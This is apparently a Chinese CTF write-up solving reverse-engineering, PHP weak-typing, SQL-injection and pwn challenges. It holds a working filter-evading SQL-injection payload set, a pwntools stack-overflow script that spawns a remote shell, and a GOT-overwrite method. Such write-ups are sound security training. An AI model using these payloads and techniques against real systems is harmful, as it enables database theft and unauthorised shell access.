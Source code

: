 # Reverse

## Try 

丢进ida，直接看到flag

![try_1](images/try_1.png)


## Snake

丢进ollydbg，找到如图

![snake_1](images/snake_1.png)

将撞墙后的retn改为jmp 003217F0后运行即可得flag

![snake_2](images/snake_2.png)

## Re Again

这题用ida生成的伪代码似乎有问题(?)，由第一个do-while循环确定flag是24位的，其中由flag格式已知首尾是flag{...}。然后查了TryLevel发现是**结构化异常处理 SEH**相关的东西，然而还是看不懂，于是只能把伪码作为参考去啃汇编**（图附注释）**。

main:

![re_again_main1](images/re_again_1.png)

![re_again_main2](images/re_again_2.png)

第二个函数（第一个函数类似）：

![re_again_except](images/re_again_3.png)

![re_again_except2](images/re_again_4.png)

大致看懂后丢进ollydbg用flag{123456789012345678}单步执行。由第二个函数的伪代码的函数声明和od跑一遍的逻辑，发现第一个函数似乎没用(?)，不影响eax的值，于是看第二个函数。

![re_again_except3](images/re_again_5.png)

由于输入的flag前五位是正确的，所以会在里面循环五次后才跳出sorry，由此了解逻辑：第一个byte ptr取出的是字符"1"或"2"，第二个byte ptr依次取出flag的每一位字符，运算后与应得的值进行比较，正确则验证下一位，反向进行异或计算即可获得flag。

做题时没想到可以直接拿到第二个断点处的数组(手动捂脸)，只能一位一位算，即用fla...算出后一位'g'，再用flag...重新运行算出'{' ……，逐位获得flag，python代码如下。

```Python
last = 0x72 # 第二个端点处取得的字符再颠倒
one = 0x31	# 字符"1"
two = 0x32	# 字符"2"
flag = last ^ 0x7 ^ one	# 用1或2 取决于第一个断点处所得值
print (flag)
```

---

# Web

## UnSafe PHP

> 传闻PHP是世界上最好的语言，但方便的同时也带来了隐患，‘弱类型’就可能引发很多问题。

考查php弱类型，根据提交的json在最下面显示输出，代码如下，注释里写过程。

```php
<?php 
error_reporting(0); 
highlight_file(__FILE__); 
include "flag.php"; 

$v1=0;$v2=0; 

$a=(array)json_decode(@$_GET['answer']); 
# 提交index.php?answer={}
if(is_array($a)){ 
# 读取$a时已转换成array，应该能通过

    is_numeric(@$a["para1"])?die("nope1"):NULL; 
    if(@$a["para1"]){ 
        ($a["para1"]>2016)?$v1=1:NULL; 
    } 
	# $a["para1]既不是数又要大于2016
	# 由php手册 http://php.net/manual/zh/language.operators.comparison.php
	# 字符串和数值时比较会转换成数值，故应为含数值的字符串 

    if(is_array(@$a["para2"])){ 
        if(count($a["para2"])!==5 OR !is_array($a["para2"][0])) die("nope2"); 
		# a["para2"]为含5个元素的数组，且第一个元素为数组

        $pos = array_search("balabala", $a["para2"]); 
        $pos===false?die("nope3"):NULL; 
        foreach($a["para2"] as $key=>$val){ 
            $val==="balabala"?die("nope4"):NULL; 
        } 
		# a["para2"]中既要有balabala，又不能有balabala
		# 根据php手册 http://php.net/manual/zh/function.array-search.php
		# array_search()中字符串和数值比较同样有类型问题
		# 即 "balabala"转化成数值应为0，故需有元素为0

        $v2=1; 
    } 
} 

if($v1 && $v2){ 

    echo $flag; 
} 

?> 
```

最终payload：/index.php?answer={"para1":"2017 ","para2":[[2],3,3,3,0]}

## SQLinjection

> Hint2:测试的时候记得把'#'url编码

在login，register，index中找到注入点在/index.php?id=1处，id=1-4组合起来是"hey there flag is in the database"。先用sqlmap跑了一遍，无果_(:з」∠)_，转而投奔手注。

测试发现union,select,from,and,or,&均被过滤(降低难度后union被放出)，用selselectect,frfromom，||解决。测试1' || 1=1 #时报错，根据hint2将#改为%23后可通过。

查阅网上wp后尝试表名列名均为flag，用id=-1' union selselect flag frfromom flag%23竟然过了，~~好像大家都是这么做出来的。（雾~~

拿到flag后正经盲注，information里or用oorr绕过。

```mysql
# 表名:flag,id,user
id=-1' union selselectect group_concat(table_name) frfromom infoorrmation_schema.tables where table_schema=database()

# 列名:flag
id=-1' union selselectect group_concat(column_name) frfromom infoorrmation_schema.columns where table_name = 'flag'%23

# flag
id=-1' union selselectect flag frfromom flag%23
```

---

# Pwn

## GetShell

![getshell_1](images/getshell_1.png)

看到pwn函数调用了system("bin/sh")，应该要跳转到这个地址。main里调用了gets()，故用v4覆写掉return的地址。

python脚本如下

```python
from pwn import *
p = remote("10.105.40.215",4445)
print p.recvuntil("name")
payload = "a" * (0xa + 0x8) + p64(0x4006d6) # 程序为64位
p.sendline(payload)
p.interactive()
```

## Array

> Hint1:数组边界溢出
>
> Hint2:改写GOT表

~~由上题权限漏洞可知此题flag（雾~~

![array_main](images/array_1.png)

根据hint1，发现name和数组a地址都在bss段。

![array_bss](images/array_2.png)

根据hint2，查看got表地址，计算可得各函数的地址，如puts为a[-17]，printf为a[-18]。

![array_got](images/array_3.png)

由第一题(Getshell)，猜测此题也是通过调用system("bin/sh")来拿到flag，将name设为“/bin/sh”，system地址覆写puts地址，即可在调用puts(name)时调用system("bin/sh")。

然而got表没有system，经查阅得知函数地址是动态链接的，需通过已链接函数地址计算system地址，算式为system-libc_system=printf-libc_printf（用其他已调用函数也可行）。

libc中函数地址可将libc.so.6丢进ida查看，后来得知也能通过gdb直接查找（下图）。printf函数因为在之前已经被调用过所以a[-18]显示的是链接后的地址，故本题有两次读写操作。

![array_readelf](images/array_6.png)

同时，因为格式化字符串的%d，所以地址要用十进制进行操作。

故解题过程为：

1. 将/bin/sh写入name
2. 读取a[-18]，即已知的printf动态地址。
3. 由system=printf-libc_printf+libc_system计算出system的动态地址
4. 将十进制的地址写入a[-17]，即要调用的puts()函数的地址
5. 调用puts(name)时，实际调用system("/bin/sh")，getshell。

![array_ans](images/array_5.png)

P.S. 题目附带的libc文件是服务器的libc库，本地测试时调用的是本地的库，本地libc库位置可通过gdb中查看，如下图。

![array_libc](images/array_4.png)